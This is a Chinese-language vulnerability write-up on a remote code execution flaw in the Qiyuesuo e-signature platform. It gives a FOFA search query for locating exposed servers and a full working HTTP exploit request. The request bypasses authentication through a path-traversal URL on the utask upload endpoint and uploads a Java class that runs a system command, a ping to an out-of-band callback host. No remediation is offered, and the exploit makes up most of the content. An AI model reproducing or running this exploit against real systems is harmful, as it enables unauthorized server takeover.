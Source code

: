 # 契约锁utask存在远程命令执行漏洞

# 一、漏洞简介
Qiyuesuo是一款数字化可信基础服务平台，为组织提供“数字身份、电子签章、印章管控以及数据存证服务”于一体的数字化可信基础解决方案。Qiyuesuo存在前台代码执行漏洞，攻击者可构造恶意请求绕过相关认证调用后台功能造成远程代码执行，控制服务器。

# 二、影响版本
+ 契约锁

# 三、资产测绘
+ fofa`app="契约锁-电子签署平台"`
+ 特征

![1717569204388-1722148f-4f83-4ad5-83a5-33896b546916.png](./img/xMWHR1MX67p3_6_M/1717569204388-1722148f-4f83-4ad5-83a5-33896b546916-819995.png)

# 四、漏洞复现
```http
POST /login/%2E%2E;/utask/upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36 Edg/106.0.1370.37
Connection: close
Content-Length: 498
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryco2lQ5vxCOn9Aq2R
Accept-Encoding: gzip


------WebKitFormBoundaryco2lQ5vxCOn9Aq2R
Content-Disposition: form-data; name="type";

TIMETASK
------WebKitFormBoundaryco2lQ5vxCOn9Aq2R
Content-Disposition: form-data; name="file";filename="qys.jpg"

package qiyuesuo;

import com.qiyuesuo.utask.java.BaseTimerTask;

public class qiyuesuo004 extends BaseTimerTask {
    static {try{Runtime.getRuntime().exec("ping grewuo.ceye.io");}catch (Exception e){}}
}
------WebKitFormBoundaryco2lQ5vxCOn9Aq2R--
```

![1717572143609-4985cd77-e1c6-41c2-a057-c8de47fb3934.png](./img/xMWHR1MX67p3_6_M/1717572143609-4985cd77-e1c6-41c2-a057-c8de47fb3934-647804.png)

![1717572153338-675b3911-cdb4-46dd-87ce-7e9fa803db15.png](./img/xMWHR1MX67p3_6_M/1717572153338-675b3911-cdb4-46dd-87ce-7e9fa803db15-226554.png)



> 更新: 2024-09-13 14:39:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cxxpice0g3tk68ed>